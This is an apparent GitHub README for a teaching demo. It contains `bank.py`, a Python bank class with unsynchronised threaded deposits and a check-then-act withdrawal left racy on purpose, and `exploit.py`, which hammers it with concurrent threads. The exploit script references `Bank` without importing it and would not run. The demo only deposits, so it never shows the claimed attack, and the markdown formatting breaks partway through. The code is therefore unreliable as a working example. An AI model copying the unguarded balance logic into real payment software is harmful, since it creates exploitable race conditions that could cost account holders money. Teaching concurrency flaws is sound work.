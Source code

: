 # Vulnerable Bank and Exploit README

## About
This repository contains a vulnerable Python script that demonstrates a race condition in a bank deposit and withdrawal system. It also includes an exploit script that demonstrates how an attacker could take advantage of this vulnerability.

## Vulnerable Bank Script
The `bank.py` script simulates a bank system with deposit and withdrawal functionality. It uses multiple threads to process deposits and withdrawals simultaneously, which can lead to a race condition.

```python
# bank.py
import threading
import time

class Bank:
    def __init__(self):
        self.balance = 0

    def deposit(self, amount):
        self.balance += amount
        time.sleep(0.1)  # simulate some processing time
        print(f"Deposited ${amount}. New balance: ${self.balance}")

    def withdraw(self, amount):
        if self.balance >= amount:
            self.balance -= amount
            time.sleep(0.1)  # simulate some processing time
            print(f"Withdrew ${amount}. New balance: ${self.balance}")
        else:
            print("Insufficient funds")

def vulnerable_transaction():
    bank = Bank()
    threads = []
    for _ in range(10):  # create multiple threads
        t = threading.Thread(target=bank.deposit, args=(100,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

    print("Final balance:", bank.balance)

vulnerable_transaction()


Exploit Script
The exploit.py script exploits the race condition in the bank.py script by creating multiple threads that deposit and withdraw money simultaneously.

# exploit.py
import threading

class ExploitBank:
    def __init__(self, bank):
        self.bank = bank

    def exploit(self):
        for _ in range(10):  # create multiple threads
            t = threading.Thread(target=self.bank.deposit, args=(100,))
            t.start()

        for _ in range(10):  # create multiple threads
            t = threading.Thread(target=self.bank.withdraw, args=(200,))
            t.start()

        print("Exploited balance:", self.bank.balance)

bank = Bank()
exploit_bank = ExploitBank(bank)
exploit_bank.exploit()


How to Run
To run the vulnerable bank script:
python bank.py

To run the exploit script:
python exploit.py
